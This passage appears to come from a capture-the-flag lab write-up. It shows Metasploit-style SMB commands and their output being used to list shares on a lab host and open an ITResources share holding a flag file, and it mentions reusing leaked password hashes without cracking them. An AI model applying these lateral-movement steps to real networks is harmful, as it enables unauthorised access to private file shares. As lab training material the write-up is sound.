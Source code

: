 This demonstrates how leaked password hashes can be directly exploited without needing to crack them first.

### Step 4: Accessing ITResources Share

With nancy's access, let's explore what additional resources we can access:

```bash
sessions -i 3
shares
shares -i 5  # Connect to ITResources
ls
```

**ITResources Share Access:**
```
SMB (10.2.27.100) > shares
Shares
======

    #  Name         Type          comment
    -  ----         ----          -------
    0  ADMIN$       DISK|SPECIAL  Remote Admin
    1  C$           DISK|SPECIAL  Default share
    2  D$           DISK|SPECIAL  Default share
    3  HRDocuments  DISK
    4  IPC$         IPC|SPECIAL   Remote IPC
    5  ITResources  DISK
    6  print$       DISK          Printer Drivers

SMB (10.2.27.100) > shares -i 5
[+] Successfully connected to ITResources

SMB (10.2.27.100\ITResources) > ls
ls 
===

    #  Type  Name       Created                    Accessed                   Written                    Changed                    Size
    -  ----  ----       -------                    --------                   -------                    -------                    ----
    0  DIR   .          2024-06-13T14:11:07+05:30  2025-09-28T18:51:37+05:30  2025-09-28T18:51:37+05:30  2025-09-28T18:51:37+05:30
    1  DIR   ..         2024-06-13T14:11:07+05:30  2025-09-28T18:51:37+05:30  2025-09-28T18:51:37+05:30  2025-09-28T18:51:37+05:30
    2  FILE  flag2.txt  2025-09-28T18:51:37+05:30  2025-09-28T18:51:37+05:30  2025-09-28T18:51:37+05:30  2025-09-28T18:51:37+05:30  34
    3  FILE  hint.txt   2024-06-13T14:45:39+05:30  2024-06-13T14:45:39+05:30  2024-06-13T16:00:47+05:30  2024-06-13T16:00:47+05:30  71
```

**Files Found:**
- `flag2.txt` - Our second target flag
- `hint.txt` - Likely contains useful information for next steps
